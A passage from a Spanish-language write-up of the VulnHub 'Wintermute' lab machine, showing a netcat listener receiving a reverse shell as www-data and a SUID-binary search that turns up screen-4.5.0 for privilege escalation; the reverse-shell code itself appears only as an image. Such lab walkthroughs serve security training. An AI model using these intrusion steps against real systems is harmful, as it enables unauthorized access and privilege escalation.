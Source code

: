 ![id](/assets/img/commons/vulnhub/Wintermute/id.png){: .center-image }

Agregamos código para obtener la reverse shell.

![rs](/assets/img/commons/vulnhub/Wintermute/rs.png){: .center-image }

## Escalación de privilegios

---

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.22] 49886
bash: cannot set terminal process group (645): Inappropriate ioctl for device
bash: no job control in this shell
www-data@straylight:/var/www/html/turing-bolo$
```

Una vez dentro, listamos los binarios `SUID`{: .filepath} y vemos el binario `screen`. Tenemos permiso total sobre este.

```bash
www-data@straylight:/var/www/html/turing-bolo$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/bin/screen-4.5.0
/bin/ping
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```